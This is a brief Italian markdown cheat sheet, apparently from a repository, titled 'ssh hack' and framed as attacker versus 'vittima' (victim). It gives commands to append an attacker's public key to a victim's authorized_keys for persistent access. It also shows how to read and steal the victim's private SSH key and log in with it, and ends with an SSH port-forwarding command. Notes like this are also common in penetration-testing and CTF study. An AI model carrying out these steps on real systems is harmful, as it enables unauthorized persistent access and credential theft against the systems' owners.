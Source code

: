 # ssh hack

## aggiungere PUB_KEY 

host:
```
ssh-keygen -t rsa
export PUBLIC_KEY=$(cat <key.pub>)
```

vittima:
```
mkdir -p /home/<USER>/.ssh
echo $PUBLIC_KEY >> /home/<USER>/.ssh/authorized_keys
```
connettersi con `ssh -i key <host>@<ip>`

## furto della PRIV_KEY

vittima (copiare negli appunti):
```
cat /<USER>/.ssh/id_rsa
```

host (incollare `./priv_key`):
```
ssh -i priv_key <IP>
```

## port forwarding

```
ssh -L <LPORT>:127.0.0.1:<RPORT> -N <HOST>@<IP>
```

